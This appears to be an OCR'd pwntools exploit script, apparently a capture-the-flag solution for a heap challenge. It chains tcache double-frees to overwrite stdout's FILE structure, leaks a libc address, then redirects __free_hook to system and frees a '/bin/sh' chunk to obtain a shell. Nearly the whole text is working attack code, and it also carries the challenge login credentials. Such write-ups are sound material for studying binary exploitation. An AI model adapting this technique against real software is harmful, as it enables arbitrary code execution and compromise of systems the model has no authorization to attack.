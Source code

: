 ```
    p.sendlineafter(">","2")
    p.sendlineafter("index:",str(idx))

def free_null_puts(idx):
    p.sendlineafter(">","2")
    p.sendline(str(idx))
    
def edit(idx,content):
    p.sendlineafter(">","3")
    p.sendlineafter("index:",str(idx))
    p.sendafter("create description:",content)

'''
0x602060
b *0x00401207
b *0x0040129b

'''
p.sendlineafter("username:","admin")
p.sendlineafter("password:","frame")

create(0x80,'aaaa\n','aaaa\n')#0
free(0)
free(0)
pause()
create(0x80,p64(0x602020)*2 + "\n","aaaa\n")#1
create(0x80,"\n","aaaa\n")#2

log.info("hjack stdout struct")
fake_stdout = p64(0xfbad1800) + p64(0)*3 + "\x00" 
create(0x80,"\x20","aaaa\n")#3 
create_null_puts(0x80,fake_stdout,"aaaa\n")#4

# when call next puts will leak the libc
leak = p.recvuntil("done!",drop = True)
#print("leak = " + str(leak))
leak = leak[0x9:]
leak_add = u64(leak[:6].ljust(8,'\x00'))
libc_base = leak_add - 0x3ed8b0 # 2.27 # 0x3D73E0
libc.address = libc_base
system = libc.symbols['system']
free_hook = libc.symbols['__free_hook']
success("leak_add = " + hex(leak_add))
success("libc_base = " + hex(libc_base))
success("system = " + hex(system))
success("free_hook = " + hex(free_hook))


create_null_puts(0x30,'aaaa\n','aaaa\n')#5
free_null_puts(5)  
free_null_puts(5)
create_null_puts(0x30,p64(free_hook)*2 + "\n","aaaa\n")#6
create_null_puts(0x30,"\n","aaaa\n")#7
create_null_puts(0x30,p64(system),"aaaa\n")#8     overwrite free_hook --> system
create_null_puts(0x10,"/bin/sh\x00","aaaa\n")#9   getshell
free_null_puts(9)

p.interactive()
```
